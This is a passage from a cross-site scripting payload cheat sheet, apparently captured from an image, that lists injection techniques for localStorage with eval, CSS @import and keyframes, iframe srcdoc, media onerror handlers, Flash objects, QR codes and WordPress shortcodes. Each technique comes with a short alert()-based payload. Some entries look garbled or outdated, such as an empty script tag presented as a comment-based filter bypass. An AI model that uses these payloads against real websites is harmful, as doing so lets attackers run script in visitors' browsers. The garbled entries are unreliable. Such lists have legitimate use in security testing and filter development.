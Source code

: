 Storing Malicious Payload:

localStorage.setItem('key', "<script>alert('XSS')</script>");

Retrieving and Executing:

var payload = localStorage.getItem('key');
eval(payload);


20. CSS Tricks

Using CSS @import:

@import 'data:text/css,body{background:url("javascript:alert(1)")}';

Keyframe Animations:

@keyframes x { 0% { background: url("javascript:alert('XSS')") } }


Context-Specific Payloads

21. HTML Comments

Using Comments to Bypass Filters:

<script></script>


22. Exploiting srcdoc Attribute in iframe

Injecting Scripts via srcdoc:

<iframe srcdoc="<script>alert('XSS')</script>"></iframe>


23. Audio and Video Tags

Using onerror in Media Elements:

<audio src="invalid.mp3" onerror="alert('XSS')"></audio>


24. Flash and Other Plugins

Flash Payloads:

<object data="data:application/x-shockwave-flash,<script>alert('XSS')</script>"></object>


25. QR Codes and Links

Generating QR Codes with Payloads:

Encode URLs leading to malicious scripts.



26. WordPress and CMS Exploits

Using Shortcodes:

[xss]<script>alert('XSS')</script>[/xss]

Theme and Plugin Vulnerabilities:

Injecting payloads into fields that do not sanitize input.
